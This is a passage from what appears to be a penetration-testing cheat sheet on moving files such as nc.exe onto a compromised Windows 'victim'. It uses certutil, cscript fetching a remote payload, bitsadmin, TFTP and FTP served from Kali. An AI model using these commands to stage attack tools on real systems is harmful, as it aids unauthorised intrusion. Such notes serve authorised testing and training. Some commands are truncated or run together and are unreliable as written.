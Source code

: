 *  Then copy paste each command from nc.txt in the remote system. The commands will gradually rebuild the executable in the target machine.


## certutil
* To fetch file and dump here
  ```
  c:> certutil.exe -URL
  ```

## Cscript / Wscript

* Where executable is a cscript file
  ```
  c:> cscript //E:jscript \\webdavserver\folder\payload.txt
  ```

## bitsadmin
BITSAdmin is a command-line tool that you can use to create download or upload jobs and monitor their progress.

  ```
  c:> bitsadmin /transfer n http://domain/file c:%homepath%file
  ```

### TFTP
+ TFTP is a UDP based file transfer protocol

+ Windows operating systems up to Windows XP and 2003 contain a TFTP client, by default. In Windows 7, 2008, and above, this tool needs to be explicitly added, during installation.

+ To serve nc.exe from Kali:  
  ```
  root@kali:~# mkdir /tftp
  root@kali:~# atftpd --daemon --port 69 /tftp
  root@kali:~# cp /usr/share/windows-binaries/nc.exe /tftp/
  ```

  From victim:
  ```
  c:> tftp -i 192.168.10.5 get nc.exe
  Transfer successful: 59392 bytes in 16 second(s), 3712 bytes/s
  ```

### FTP
+ Windows operating systems contain a default FTP client that can also be used for file transfers.
+ ftp.exe is an interactive program.

+ From Kali
  ```
  root@kali:~# apt-get update && apt-get install pure-ftpd
  ```
  Then to set up:
  ```
  # groupadd ftpgroup
  # useradd -g ftpgroup -d /dev/null -s /etc ftpuser pure-pw useradd offsec -u ftpuser -d /ftphome pure-pw mkdb
  # cd /etc/pure-ftpd/auth/
  # ln -s ../conf/PureDB 60pdb
  # mkdir -p /ftphome
  # chown -R ftpuser:ftpgroup /ftphome/ /etc/init.d/pure-ftpd restart
  ```
